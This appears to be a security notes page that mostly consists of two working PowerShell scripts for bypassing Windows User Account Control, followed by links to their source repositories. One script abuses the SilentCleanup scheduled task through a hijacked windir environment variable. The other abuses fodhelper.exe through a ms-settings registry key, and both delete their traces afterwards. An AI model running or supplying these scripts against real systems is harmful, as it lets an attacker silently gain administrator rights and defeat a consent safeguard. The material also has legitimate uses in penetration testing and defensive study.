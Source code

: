 # PowerShell

```powershell
if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload will run as Administrator
    powershell.exe
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"

    # Use for hidden window
    # $Value = "powershell -ExecutionPolicy bypass -windowstyle hidden -Command `"& `'$PSCommandPath`'`";#"

    # Use for interactive window
    $Value = "powershell -ExecutionPolicy bypass -Command `"& `'$PSCommandPath`'`";#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value

    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks.exe /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```

```powershell
<#
.SYNOPSIS  
    This script can bypass User Access Control (UAC) via fodhelper.exe
　
    It creates a new registry structure in: "HKCU:\Software\Classes\ms-settings\" to perform UAC bypass and starts 
    an elevated command prompt. 
    　
.NOTES  
    Function   : FodhelperUACBypass
    File Name  : FodhelperUACBypass.ps1 
    Author     : netbiosX. - pentestlab.blog 
　
.LINKS          
    https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692
    https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/    
　
.EXAMPLE  
　
     Load "cmd /c start C:\Windows\System32\cmd.exe" (it's default):
     FodhelperUACBypass 
　
     Load specific application:
     FodhelperUACBypass -program "cmd.exe"
     FodhelperUACBypass -program "cmd.exe /c powershell.exe"　
#>

function FodhelperUACBypass(){ 
 Param (
        [String]$program = "cmd /c start C:\Windows\System32\cmd.exe" #default
       )
　
    #Create Registry Structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
　
    #Start fodhelper.exe
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
　
    #Cleanup
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
　
}
```

---
## References

### Source Repositories

- [netbiosX: Bypass UAC via Fodhelper binary in Windows 10 systems](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

### Jakoby

- [Jakoby: UAC Bypass](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/UAC-Bypass.md)

### Ben Forster

- [Ben Forster: Simple Lateral Movement with SSH and UAC Bypass](https://www.linkedin.com/pulse/simple-lateral-movement-ssh-uac-bypass-ben-forster/)